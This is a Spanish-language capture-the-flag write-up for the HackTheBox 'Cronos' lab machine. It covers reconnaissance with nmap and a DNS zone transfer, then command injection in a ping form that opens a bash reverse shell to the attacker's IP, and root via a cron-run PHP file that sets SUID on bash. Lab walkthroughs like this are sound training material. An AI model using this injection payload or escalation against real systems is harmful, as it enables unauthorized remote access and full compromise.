 ```yaml
---
layout: single
author_profile: true
title: HTB cronos
excerpt: "Vamos a resolver la máquina cronos de HackTheBox. ¡Let's hack!"
date: 2022-12-21
classes: wide
header:
  teaser: /assets/images/cronos/01-inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Cronos
---
```


<p align="center">
<img src="/assets/images/cronos/02-tarjeta.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la máquina `cronos` de [HackTheBox](https://hackthebox.com/).
La máquina es nivel “Medium”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear con nuestra función [mkhack](https://bast1ant1c.github.io/mkhack/) un directorio de trabajo con el nombre `cronos` y los subdirectorios `recon` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
mkhack cronos
cd !$/recon
```

## RECONOCIMIENTO  

Accedemos al directorio `recon` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de nuestra utilidad [osping](https://bast1ant1c.github.io/osping/) detectando el tipo de sistema operativo basado en el `ttl` _time to live_ de una traza **ICMP**.

```bash
osping 10.10.10.13
 
[*] Detectando sistema operativo ...

[+] 10.10.10.13 ttl=63 >> Linux
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.13 -oG ports | grep open
```
```bash
#Resultados
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
nmap -p22,53,80 -sCV 10.10.10.13 -oG versions
```
```bash
#Resultados
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del puerto `80` por medio de la utilidad `whatweb` para identificar software que sea potencialmente vulnerable o de utilidad para nosotros.

```bash
whatweb 10.10.10.13
```
```bash
#Resultados
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```

Realizamos un descubrimiento con `nslookup` para identificar `DNS` asociados a la dirección IP.

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

Podemos evidenciar el `DNS` `cronos.htb`, por lo que vamos a agregar en el ficheros `/etc/hosts` esta información.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb
```

Ya podemos evidenciar un poco más de información en la pagina web, sin embargo vamos a hacer uso de la utilidad `dig`, para identificar subdominios de nuestro objetivo.

```bash
dig @10.10.10.13 cronos.htb axfr
```
```
#RESULTADOS
; <<>> DiG 9.16.15-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

Vamos a realizar el mismo procedimiento anterior, pero esta vez vamos a agregar el subdominio `admin.cronos.htb`.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb admin.cronos.htb
```

## WEB EXPLOIT + INTRUSION

Ahora que tenemos dominios y subdominios, procedemos a investigar un poco y encontramos un portal de acceso en el subdominio `admin.cronos.htb` al cual intentamos realizar un ataque `SQLi` exitoso.

<p align="center">
<img src="/assets/images/cronos/03-page.png">
</p>

Al acceder podemos ver que podemos ejecutar el comando traceroute o ping a un objetivo especifico, por lo que vamos a tomar provecho de esta funcionalidad para ejecutar una reverse shell en bash.

Generamos un listener
```bash
nc -lnvp 4564
```

Ejecutamos la reverse shell en el campo de la pagina web y le damos enter para que ejecute el comando.
```bash
8.8.8.8; bash -c "bash -i >& /dev/tcp/10.10.14.2/4564 0>&1"
```

Reverse shell obtenida
```bash
#OUTPUT
www-data@cronos:/var/www/admin$ whoami
www-data
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando las tareas `cron`.

```bash
cat /etc/crobtab
```
```bash
#Resultados
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Como podemos ver en los resultados anteriores, identificamos que `artisan` es una tarea que se ejecuta cada minuto con el usuario root, hay que tener en cuenta que tenemos acceso directamente a la ruta donde se ejecuta este script de php, por lo que simplemente vamos a eliminar el archivo `artisan` y generar uno nuevo habilitando con la funcion `system` el permiso `SUID` de `bash`, para finalmente aprovecharnos de este permiso configurado y obtener una shell de un usuario administrador.

Eliminar el archivo `artisan`
```bash
rm /var/www/laravel/artisan
```

Crear el nuevo archivo `artisan`
```bash
nano /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
```

Monitoreo del permiso `SUID` de `/bin/bash`
```bash
www-data@cronos:/dev/shm$ watch -n 1 ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> SIN SUID
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> CON SUID
```

Aprovechando el permiso `SUID`

```bash
www-data@cronos:/dev/shm$ bash -p
```

```bash
#Resultados
bash-4.3# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
bash-4.3# find / -name user.txt 2>/dev/null | xargs head -c 10; echo
6394a949f7
```

```bash
#ROOT
bash-4.3# find / -name root.txt 2>/dev/null | xargs head -c 10; echo
4491f4cbdd
```

¡Hemos logrado completar la máquina `cronos` de HackTheBox!

<p align="center">
<img src="/assets/images/cronos/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
